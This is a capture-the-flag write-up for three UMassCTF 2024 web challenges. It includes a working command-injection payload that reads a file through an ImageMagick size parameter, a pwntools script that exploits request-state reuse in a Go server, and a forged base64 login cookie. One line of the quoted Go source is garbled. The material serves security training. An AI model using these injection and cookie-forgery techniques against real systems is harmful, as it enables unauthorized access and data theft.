


# UMassCTF 2024 Writeups

Writeups for solved [UMassCTF 2024](_attachments/https://ctftime.org/event/2287) web challenges (3/5)

---
 
# web/Spongebobs Homepage
> Welcome to this great website about myself! Hope you enjoy ;) DIRBUSTER or any similar tools are NOT allowed.

There is a `#command-injection` in the `/assets/image` path in `size` query parameter. The size is passed on to the **convert-im6.q16** command. When I tried various command injection payloads, it resulted in an error.



During my tries, I wasn't able to escape from the current command, so I just looked for available arguments. I learned can use `-set` argument in convert-im6.q16 to set meta tags to the image. This resulted to the following payload: `200 -set Flag "$(cat flag.txt | base64)"`. Encoding in base64 is not really required for this challenge.

`http://spongebob-blog.ctf.umasscybersec.org/assets/image?name=spongebob&size=200%20-set%20Flag%20%22$(cat%20flag.txt%20|%20base64)%22`

We can download the image rendered and view using exiftool and decode from base64


```bash
curl -s 'http://spongebob-blog.ctf.umasscybersec.org/assets/image?name=spongebob&size=200%20-set%20Flag%20%22$(cat%20flag.txt%20|%20base64)%22' | exiftool - | grep Flag | cut -d ':' -f 2 | tr -d '!' | xargs | base64 -d 
```


flag: **UMASS{B4S1C_CMD_INJ3CTI0N}**

---
# web/Crabby Clicker
> I've created a new game called Crabby Clicker! It's a fun game where you click on a crab to get points. Once you get enough points, you can buy the flag!

We are given a `#go` server which apparently has bugs in it. We needed to click 100 times by sending requests to the `/click` endpoint. The bug was the state is not saved accross requests. I think doing in HTTP resets the connection so I tried doing in TCP in pwn and it worked. 

main.go
```go
package main

import (
	"bufio"
	"fmt"
	"net"
	"os"
	"strings"
	"time"
)

type RequestHandler struct {
	burgers int
	conn    net.Conn
}

var GLOBAL_STATE RequestHandler

func main() {
	// Listen on TCP port 8080 on all interfaces.
	ln, err := net.Listen("tcp", ":1337")
	if err != nil {
		fmt.Println("Error listening:", err.Error())
		return
	}
	defer ln.Close()
	fmt.Println("Listening on :1337")

	GLOBAL_STATE = RequestHandler{burgers: 0, conn: nil}

	for {
		// Accept a connection.
		conn, err := ln.Accept()
		if err != nil {
			fmt.Println("Error accepting: ", err.Error())
			return
		}

		// burger to the GLOBAL_STATE from the request handler so we can track between requests
		handler := RequestHandler{burgers: GLOBAL_STATE.burgers, conn: conn}
		go handler.handleRequest()
	}
}

func (r *RequestHandler) handleRequest() {
	defer r.conn.Close()

	reader := bufio.NewReader(r.conn)

	for {
		// Set a deadline for reading. If a second passes without reading any data, a timeout will occur.
		r.conn.SetReadDeadline(time.Now().Add(1 * time.Second))

		// Read and parse the request headers
		request, err := readHTTPHeader(reader)
		if err != nil {
			return
		}

		requestLines := strings.Split(request, "\n")
		if len(requestLines) < 1 {
			fmt.Println("Invalid request")
			return
		}

		// Parse the request line
		requestLine := strings.Fields(requestLines[0])
		if len(requestLine) < 3 {
			fmt.Println("Invalid request")
			return
		}

		method := requestLine[0]
		uri := requestLine[1]

		// Check if the request is a valid GET request
		if method != "GET" {
			r.conn.Write([]byte("HTTP/1.1 405 Method Not Allowed\r\n\r\n"))
			return
		}

		// Handle GET request
		if uri == "/" {
			r.generateResponse(`
Welcome to Crabby Clicker!
A HTTP based clicker game where you can earn burgers to get the flag. 
Make a request to /click to gain a burger.
I use my own custom HTTP server implementation to manage the state of the game.
It's not fully working, I am running into some bugs.
			`)
		} else if uri == "/click" {
			// BUG: Weird thing where the state is not updated between requests??
			r.burgers++
			r.generateResponse("burger added")
		} else if uri == "/flag" {
			if r.burgers >= 100 {
				r.generateResponse("fmt.Sprintf("Flag: UMASS{%s}", os.Getenv("FLAG")"))
			} else {
				r.generateResponse("Not enough burgers")
			}
		} else {
			r.generateResponse("Not found")
		}
	}
}

func (r *RequestHandler) generateResponse(message string) {
	r.conn.Write([]byte(fmt.Sprintf("HTTP/1.1 200 OK\r\nContent-Type: text/plain\r\n\r\n%s\nburgers: %d\n", message, r.burgers)))
}

func readHTTPHeader(reader *bufio.Reader) (string, error) {
	// Read headers until \r\n\r\n
	var requestLines []string
	for {
		line, err := reader.ReadString('\n')
		if err != nil {
			return "", err
		}
		requestLines = append(requestLines, line)
		// Check if the current line marks the end of the headers
		if line == "\r\n" {
			break
		}
	}
	return strings.Join(requestLines, ""), nil
}

```

solve.py
```python
from pwn import *

host = "crabby-clicker.ctf.umasscybersec.org" 
port = 80            

conn = remote(host, port)

# clicker
for i in range(100):
    print("Burger:", i+1)
    conn.send(f"GET /click HTTP/1.1\r\n")
    conn.send(f"Host: {host}\r\n")
    conn.send("\r\n")

# flag
conn.send(f"GET /flag HTTP/1.1\r\n")
conn.send(f"Host: {host}\r\n")
conn.send("\r\n")  
response = conn.recvall().decode()
print(response)

conn.close()
```

flag: **UMASS{y_w0uld_u_w4nt_mult1p13_r3qu35t5}**

---
# web/Holesome Birthday Party
Sponbebob's birthday party invitation. It requires specific headers to enter. When we first view the webpage, it said requires a `User-Agent`. We can see the requirements/hints in the response as we progress. 

Challenges:
1. CONGRATS, you got invited to my birthday party! To gain your ticket for entrance, you must first prove that your browser is from "Bikini Bottom"!
2. Good to see you here, mate. Sorry, but you're too early for the Spongebob Squarepant's birthday party!
3. Bravo! You made it just on time! But… I’ve been trying to learn French… can you speak French?
4. C’est très chouette! Suddenly I really miss my great-grandma (இ﹏இ`｡) Can you get me some cookies? I want a cookie with the "flavor" of "chocolate_chip"
5. So yummy! I now grant you the ticket of entrance to the party, but can you find your way in? . 
> For challenge 5, The response sets a cookie to `Login=base64({"loggedin": false})`. Looks like it needs to be set to true 

solve.py

```python
import requests
import base64 
from datetime import datetime

# spongebob birthday
date_obj = datetime(year=2024, month=7, day=14) 
date_str = date_obj.strftime('%a, %d %b %Y %H:%M:%S GMT')

# chall 5
login_cookie = base64.b64encode('{"loggedin": true}'.encode()).decode()

headers = {
    "User-Agent": "Bikini Bottom", # chall 1
    "Date": date_str, # chall 2
    "Accept-Language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7", # chall 3
    "Cookie": f"flavor=chocolate_chip; Login={login_cookie}", # chall 4-5
}

r = requests.get("http://holesomebirthdayparty.ctf.umasscybersec.org/", headers=headers)
print(r.text)
```



flag: **UMASS{B3k3nIwH3rLP0oL~}**
